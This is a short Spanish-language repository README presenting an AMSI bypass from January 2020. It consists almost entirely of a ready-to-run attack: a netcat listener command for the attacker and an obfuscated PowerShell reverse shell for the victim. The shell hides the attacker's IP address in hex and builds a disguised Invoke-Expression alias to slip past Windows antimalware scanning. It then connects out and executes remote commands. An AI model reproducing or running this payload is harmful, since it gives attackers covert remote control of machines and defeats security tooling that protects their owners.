 # AMSI Bypass (Enero 2020)

> Oscar Atienza | Aka x25s Aka oski02

----------------------------------------------

Este repositorio recopila los AMSI BYPASS de 2020 

----------------------------------------------



## AMSI Bypass Enero 2020 (Powershell Reverse Shell)

Trabajo de: https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/



Atacante:

```
printf “%x,%x,%x,%x\n" 192 168 233 130
nc -lnvp 80
```

Victima:

```
while ($true) {$px = "c0","a8","e9","82";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
